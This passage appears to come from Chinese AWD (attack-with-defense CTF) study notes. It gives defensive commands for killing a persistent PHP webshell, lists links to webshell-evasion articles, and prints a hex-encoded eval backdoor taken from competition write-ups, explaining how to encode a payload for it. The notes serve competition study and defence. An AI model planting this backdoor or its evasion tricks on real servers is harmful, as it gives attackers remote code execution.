 service php restart
2、最好的解决方案是kill掉www-data用户的所有子进程：
`ps aux | grep www-data | awk '{print $2}' | xargs kill -9`
3、创建一个和不死马生成的马一样名字的目录
4、编写一个使用ignore_user_abort(true)函数的脚本，一直竞争写入删除不死马文件，其中usleep()的时间必须要小于不死马的usleep()时间才会有效果

```php
<?php
while (1) {
	$pid = 不死马的进程PID;
	@unlink(".ski12.php");
	exec("kill -9 $pid");
	usleep(1000);
}
?>
```

[PHP内存型木马](https://blog.csdn.net/ski_12/article/details/84920127)
可学习文章：
[从静态到动态打造一款免杀的antSword(蚁剑)](https://xz.aliyun.com/t/4000)
[常见php一句话webshell解析](http://blkstone.github.io/2016/07/21/php-webshell/)
[PHP后门之冷门回调函数(过waf)](https://www.cnblogs.com/-qing-/p/10821238.html)
[PHP Webshell那些事——攻击篇](https://www.anquanke.com/post/id/212728)
[探讨新技术背景下的一句话免杀](https://www.anquanke.com/post/id/197624)
[我们要WebShell过人！](https://www.freebuf.com/articles/web/241454.html)
[PHP webshell 免杀姿势总结](https://www.sqlsec.com/2020/07/shell.html)
[那些强悍的PHP一句话后门](https://www.uedbox.com/post/6051/)
[php一句话木马检测绕过研究](https://xz.aliyun.com/t/2335)
[无eval 木马免杀人免杀D盾](https://www.o2oxy.cn/2716.html)
[PHP后门隐藏技巧](https://mp.weixin.qq.com/s/UqmN_b4EXewCN7WPei14_A)
[Tomcat 源代码调试笔记 - 看不见的 Shell](https://mp.weixin.qq.com/s/x4pxmeqC1DvRi9AdxZ-0Lw)
### 记录一些师傅分析的awd后门

#### 1

```php
<?php 
$string = '';
$password = 'password';
if(isset($_POST[$password])){
    $hex = $_POST[$password];
    for($i = 0; $i < strlen($hex) - 1; $i += 2) {
        $string .= chr(hexdec($hex[$i] . $hex[$i + 1]));
    }
}
eval($string);
?>
```

简单分析一下代码，存在eval代码执行，执行的$string变量是通过POST过来的数据进行hexdec解密，chr函数再次解密拼接形成的，两个函数的作用分别是将十六进制字符转换为十进制字符，将ASCII码转换为字符，所以我们如果构造eval代码执行输出1的话，需要先对我们的传输的变量进行ascii码转化，之后依次进行hex加密即可

```php
echo 1; #输出1
10199104111324959 #ascii码后数据
6563686f20313b #依次hex加密后的代码
```
